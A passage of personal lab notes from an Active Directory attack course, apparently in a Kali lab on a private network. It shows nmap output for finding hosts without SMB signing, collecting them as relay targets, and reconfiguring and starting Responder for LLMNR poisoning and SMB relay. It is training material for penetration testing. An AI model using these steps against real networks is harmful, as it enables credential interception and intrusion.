 ```
Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Nmap scan report for 10.0.2.5
Host is up (0.000049s latency).

PORT    STATE  SERVICE
445/tcp closed microsoft-ds

Nmap done: 256 IP addresses (7 hosts up) scanned in 2.53 seconds
```

Port 445 is used for SMB. The switch `-Pn` is used to skip host detection. It
is advisable to use it in conjunction with `nmap` scripts, particularly if we
know the host is up. There are also other scripts in `nmap` that can be used
for all sorts of things, e.g. vulnerability scanning for EternalBlue.

We have found two IPs with `"Message signing enabled but not required"`:
`10.0.2.4` and `10.0.2.6`. We store them in a file called `targets.txt` with
`echo` or `vim`. TCM mentions using `grep`, but it does not seem straightforward
to write that command since IP and `"Message signing..."` do not appear on the
same line of output.



### Changeing Responder configuration and start responder

We can modify the configuration of `responder` with

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ sudo vim /etc/responder/Responder.conf
```

We need to change `SMB` and `HTTP` to `Off` for the relay attack and to `On`
for LLMNR poisoning.

We can double-check the success of our action by starting `responder` the same
way as we did for LLMNR poisoning, again without the `-w` switch, which is
incompatible with `-P`:

```
┌──(kali㉿kali)-[~/LLMNR_Poisoning]
└─$ sudo responder -I eth0 -dPv 
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.1.5.0

  To support this project:
  Github -> https://github.com/sponsors/lgandx
  Paypal  -> https://paypal.me/PythonResponder

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C


[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    MDNS                       [ON]
    DNS                        [ON]
```